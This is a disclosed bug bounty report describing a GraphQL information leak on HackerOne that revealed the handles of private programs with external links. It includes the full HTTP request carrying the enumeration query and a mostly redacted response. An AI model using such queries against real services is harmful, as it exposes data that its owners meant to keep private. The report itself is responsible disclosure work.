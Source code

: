 # Disclosure handle private program with external link

## Report Details
- **Report ID**: 1276992
- **URL**: https://hackerone.com/reports/1276992
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-25T05:37:57.885Z
- **Disclosed**: 2021-08-24T16:48:29.463Z

## Reporter
- **Username**: haxta4ok00
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hi team.

It looks like we can identify private programs that have an external link

### Steps To Reproduce


1. 
```http
POST /graphql HTTP/1.1
Host: hackerone.com
Connection: close
Content-Length: 168
accept: */*
X-Auth-Token: your_token
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
content-type: application/json
Origin: https://hackerone.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: your_cookie

{"query":"{teams(last:100,where:{_and:[{roles:is_has_published_external_program},{roles:is_private}]}){total_count,nodes{_id,handle,state,participants{total_count}}}}"}
```

Answer:

```code
{"data":{"teams":{"total_count":153,"nodes":[{"_id":"███████","handle":"████","state":null,"participants":null},.....REDACT....{"_id":"49805","handle":"security-test-ep-invite-only","state":null,"participants":null},"handle":"█████","state":null,"participants":null}]}}}
```
As we can see program for proof : @security-test-ep-invite-only
If this is the correct answer, then there are a total of 153 private programs with external links

Thanks!

## Impact

Disclosure handle private program with external link

## Attachments
No attachments
